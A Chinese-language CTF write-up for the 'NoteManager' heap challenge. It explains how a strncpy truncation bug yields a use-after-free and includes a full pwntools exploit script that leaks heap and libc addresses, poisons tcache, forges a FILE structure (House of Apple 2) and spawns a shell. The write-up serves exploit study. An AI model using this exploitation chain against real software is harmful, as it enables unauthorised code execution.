


# NoteManager 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.7|

## 解题思路

经典菜单题，但是有一个头节点作为“全局变量”，使用链表来存放各个节点。
判断两个节点是否相同有2个方法：比较哈希值和字符串内容。审计代码不难发现，
在删除节点时如果存在两个相同节点，就能产生uaf（以下配图暂时忽略哈希机制）



除了在新增时使用哈希和`strcmp`同时判断，其余操作只判断哈希是否相同，
那么如何找到一个哈希相同，而`strcmp`也相同的两个字符串呢？

> 一开始我的想法是哈希碰撞，爆了一晚上没爆出来，早上起来想到肯定不是这么做的

再次审计代码，发现有漏洞可循：

```c
...
    // 读入title时长度是原长
    pcVar2 = fgets(title,0x100,stdin);
...
    // 计算哈希时长度是原长
    hasher = hash(title);
        for (cnote = *gnote; cnote != NULL; cnote = cnote->prev) {
            // 判断strcmp时用的是原长
            if ((cnote->hash == hasher) && (iVar1 = strcmp(cnote->title,title), iVar1 == 0)) {
...
        // 但是做字符串拷贝的时候只取了0x1f长
        strncpy((char *)note,title,0x1f);
...
```

由此可以得知，只要输入长度超过31的字符串，那么输入时就不会被判为相同，
同时它们的哈希值也是一样的，那么我们就能构造出上图的条件做uaf了

有了uaf就可以考虑怎么泄露了。首先输入的内容长度可以达到0x1000，
而稍后使用的`strdup`实际上会调用`malloc`产生chunk，size就是输入内容的长度，
因此可以很轻松地得到libc和heap基地址

最后起一个shell，用House of Apple 2打FSOP即可

> 一开始用onegadget，结果试了一圈都不行

edit时使用`strcpy`，所以需要一个`\0`一个`\0`地写

此外在造成uaf利用后，无法再写入2+个堆块，而想要利用uaf则需要2个堆块，
因此应一口气分配好相关堆块，最后利用uaf。以下是图示



## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './NoteManager'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.7_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(title:bytes, cont:bytes):
        sh.sendlineafter(b'Choose', b'1')
        sh.sendlineafter(b'title', title)
        sh.sendlineafter(b'content', cont)

    def deln(title:bytes):
        sh.sendlineafter(b'Choose', b'2')
        sh.sendlineafter(b'title', title)

    def edit(title:bytes, cont:bytes):
        sh.sendlineafter(b'Choose', b'3')
        sh.sendlineafter(b'title', title)
        sh.sendlineafter(b'content', cont)

    def show() -> bytes:
        sh.sendlineafter(b'Choose', b'4')
        sh.recvuntil(b'option: ')
        return sh.recvuntil(b'NoteManager', True)

    def eout():
        sh.sendlineafter(b'Choose', b'5')

    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr

    addn(b'root', b'!')
    addn(b'fake file', b't'*0x100)
    addn(b'0'*33, b'x'*0x18)
    addn(b'0'*33, b'x'*0x500)
    addn(b'1'*33, b'x'*0x28) # guard chunk to prevent 0x500-size chunk being merged
    addn(b'1'*33, b'x')
    addn(b'head', b'head')
    deln(b'0'*33)
    val = show()

    # look for 4rd Title
    idx = val.find(b'Title: ', 5)
    idx = val.find(b'Title: ', idx + 5)
    idx = val.find(b'Title: ', idx + 5)
    heapBase = u64(val[idx + 7:idx + 12] + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    arena = 0x21ac80
    idx = val.find(b'Content: ', idx)
    mainArena = u64(val[idx + 9:idx + 15] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - arena
    libc.address = libcBase
    oneGadget = libcBase + 0x10d9c2
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))

    def write0(content:bytes, offset:int):
        for leng, b in enumerate(content):
            if b == 0:
                break
        for i in range(7, leng, -1):
            edit(b'fake file', b'0'*(offset + i) + b'\0')
        edit(b'fake file', b'0'*offset + content)

    write0(p64(heapBase + 0x360), 0xe0)
    write0(p64(libc.symbols['_IO_wfile_jumps']), 0xd8)
    write0(p64(0), 0xc0)
    write0(p64(heapBase + 0x360), 0xa0)
    write0(p64(libc.symbols['system']), 0x68)
    write0(p64(0), 0x30)
    write0(p64(1), 0x28)
    write0(p64(0), 0x20)
    write0(p64(0), 0x18)
    write0(b'  sh;\0', 0)

    deln(b'root')
    deln(b'1'*33)
    edit(b'1'*33, p64(PROTECT_PTR(heapBase + 0x9c0, libc.symbols['_IO_list_all'])))
    addn(b'adjusting', b'x')
    addn(b'more adjust', p64(heapBase + 0x360))

    eout()
    sh.clean()
    sh.interactive()
```

